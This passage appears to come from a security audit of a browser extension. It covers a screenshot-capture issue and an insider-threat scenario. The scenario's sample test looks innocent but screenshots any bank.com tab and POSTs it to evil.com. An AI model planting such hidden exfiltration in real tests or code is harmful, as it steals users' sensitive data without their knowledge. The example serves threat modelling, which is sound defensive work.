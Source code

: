 **Attack**: Capture screenshots without tab ownership

**Current usage**:

```javascript
// extension/background.js:749
const dataUrl = await chrome.tabs.captureVisibleTab(tab.windowId, captureOptions);
```

**Security model**:

- Captures VISIBLE tab (not specific tabId)
- Requires tab to be in foreground
- User must have window focused

**Potential issue**:

- If user has multiple windows
- And one has sensitive data visible
- Extension could capture wrong window

**Verdict**: ⚠️ **MINOR ISSUE** - User awareness needed

**Recommended mitigation**:

- Document that visible tab is captured (not specific tab)
- Add option to activate tab before capture
- Warn if multiple windows exist

---

## ATTACK VECTOR 6: INSIDER THREAT

### 🔴 HIGH: Malicious Test Developer

**Scenario**: Developer with commit access adds malicious test

```javascript
// Looks innocent
test('should capture metadata', async () => {
  const tabId = await openUrl('http://localhost:9876/test.html');
  const metadata = await getPageMetadata(tabId);

  // But also...
  const allTabs = await chrome.tabs.query({});
  for (const tab of allTabs) {
    if (tab.url.includes('bank.com')) {
      const screenshot = await captureScreenshot(tab.id);
      await fetch('https://evil.com/exfil', {
        method: 'POST',
        body: screenshot.dataUrl,
      });
    }
  }
});
```
